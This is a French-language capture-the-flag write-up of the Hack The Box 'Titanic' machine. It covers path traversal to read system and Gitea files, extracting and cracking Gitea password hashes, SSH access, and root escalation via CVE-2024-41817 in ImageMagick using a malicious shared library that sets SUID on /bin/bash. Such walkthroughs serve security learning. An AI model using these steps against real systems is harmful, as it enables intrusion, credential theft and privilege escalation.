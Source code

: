 ```yaml
---
title: Titanic - Linux Easy - HTB Writeup 
description:
slug: titanic-htb-writeup-linux-easy
date: 2025-06-21 00:00:00+0000
image: Titanic.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Path traversal
    - Gitea
    - ImageMagick
    - CVE-2024-41817
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Path traversal\
Root: Execution de code arbitraire via CVE-2024-41817(ImageMagick).

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 7" >}}
$ nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
{{< /highlight >}}

## Utilisateur
### Path traversal

En explorant `titanic.htb`, on remarque que si l'on soumet le formulaire de booking, un fichier contenant nos éléments de réservation au format JSON est téléchargé.\
![](Titanic-web.png)
{{< highlight go "hl_lines=1" >}}
$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}
{{< /highlight >}}
Côté burp, le paramètre `ticket` via `/download` permet de spécifier le fichier à télécharger.\
![](Burp-ticket.png)\
L'absence de controle ou de validation sur ce paramètre nous permet de lire des fichiers sur la machine.\
Ce path traversal, nous permet de récupérer les informations suivantes:\
`/etc/passwd` nous indique l'existence de l'utilisateur `developer`.\
`/etc/hosts` nous permet de récupérer un nouveau sous-domaine, `dev`.
![](Burp-LFI1.png)\
![](Burp-LFI2.png)

### Gitea
Pour l'instant, on ne peut pas aller plus loin, explorons `dev.titanic.htb`.\
On trouve une instance de [Gitea](https://about.gitea.com/), un outil de versionning auto-herbergé utilisant git.\
![](Gitea-1.png)\
En explorant les repo accessibles publiquement, on trouve `docker-config`et `flask-app`.\
![](Gitea-2.png)\
Dans le repo `docker-config`, on trouve des identifiants `MySQL` dans `/mysql/docker-compose.yml`.\
Le scan nmap n'a pas permis d'identifier un accès MySQL, on garde ces identifiants de côté.\
![](Gitea-3.png)\
Toujours dans ce même repository, on trouve dans `/gitea/docker-compose.yml`, le chemin vers un volume.\
![](Gitea-volume.png)\
En utilisant ce chemin, le path traversal précédemment trouvé et la documentation de Gitea, on peut récupérer le fichier de configuration de Gitea.\
Après plusieurs tentatives, il se situe dans `/home/developer/gitea/data/gitea/conf/app.ini`.\
Dans ce fichier de conf, on trouve le chemin de la `BDD` Gitea.\
![](Gitea-4.png)\
![](Gitea-5.png)\
On passe par le site pour la récupérer.\
En explorant cette base de données avec `sqlite3`, on peut récupérer les hash de `developer` et `administrator`.\
{{< highlight go "hl_lines=1" >}}
$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
{{< /highlight >}}
Les hashs sont au format PBKDF2 et peuvent être convertis à l’aide de [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) pour être compatibles avec Hashcat et ensuite casser le mot de passe du compte `developer`.
{{< highlight go "hl_lines=1 6" >}}
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
{{< /highlight >}}

On l'utilise pour se connecter via SSH à la machine.
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b
{{< /highlight >}}

## Root
### CVE-2024-41817(ImageMagick)
Une fois connecté en SSH, on remarque le script `identify_images.sh` dans le dossier `/opt/scripts/`.
{{< highlight go "hl_lines=1 24" >}}
developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
{{< /highlight >}}
Cette commande va identifier le format et caractéristiques des fichiers finissant par `.jpg` dans `/opt/app/static/assets/images/` et les stocker dans `/opt/app/static/assets/metadata.log`.\
On remarque que le timestamp de metadata.log est actualisé chaque minute, le script appartient à root donc susceptible d'être lancé par une tâche cron.\
Les commandes `truncate`, `find`, `xargs` ne sont pas exploitables ici. `Imagemagick` étant un outil utilisé dans des CTF dans ses versions vulnérables, on cherche des CVE associées à sa version, la `7.1.1-35`.
{{< highlight go "hl_lines=1" >}}
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...
{{< /highlight >}}

On trouve [cet advisory sur Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) concernant la `CVE-2024-41817` permettant une execution de code arbitraire sur les versions <= à 7.1.1-35.\
Pour obtenir de l'éxécution de code en tant que root, on va adapter le POC mentionné en modifiant id pour set le SUID sur /bin/bash.
{{< highlight go "hl_lines=1 11 12 13 15 16" >}}
developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/
developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap
{{< /highlight >}}

## Ressources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)